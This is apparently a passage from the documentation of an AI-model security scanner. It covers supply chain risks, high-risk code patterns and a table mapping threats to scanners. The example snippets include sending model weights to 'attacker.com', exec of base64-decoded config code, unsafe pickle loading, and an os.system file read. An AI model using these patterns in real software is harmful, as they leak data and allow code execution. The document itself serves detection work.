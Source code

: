 ### 6. Supply Chain Attacks

#### Malicious Dependencies
- **Risk**: Models requiring compromised packages
- **Scanners**: `PatternScanner`, `CodeScanner`
- **Indicators**:
  - Unusual import statements
  - References to unknown packages
  - Version-specific requirements

#### Model Substitution
- **Risk**: Legitimate models replaced with malicious versions
- **Scanner**: `SignatureScanner`
- **Detection**: Hash verification, signature checking

## Vulnerability Patterns

### High-Risk Patterns
1. **Dynamic Code Loading**
   ```python
   exec(base64.b64decode(model_config['code']))
   ```

2. **Unsafe Deserialization**
   ```python
   data = pickle.loads(untrusted_input)
   ```

3. **Network Operations**
   ```python
   requests.post("http://attacker.com", data=model_weights)
   ```

4. **File System Access**
   ```python
   os.system(f"cat {sensitive_file}")
   ```

## Detection Implementation

### Scanner Mapping

| Vulnerability Type | Primary Scanner | Secondary Scanners |
|-------------------|----------------|-------------------|
| Pickle Exploits | PickleScanner | CodeScanner |
| Embedded Secrets | SecretScanner | PyTorchAttributeScanner |
| Code Injection | CodeScanner | PatternScanner |
| Data Exfiltration | ExfiltrationScanner | SignatureScanner |
| Model Backdoors | AnomalyScanner | EntropyScanner |
| Known Malware | SignatureScanner | PatternScanner |
| Obfuscation | EntropyScanner | CodeScanner |

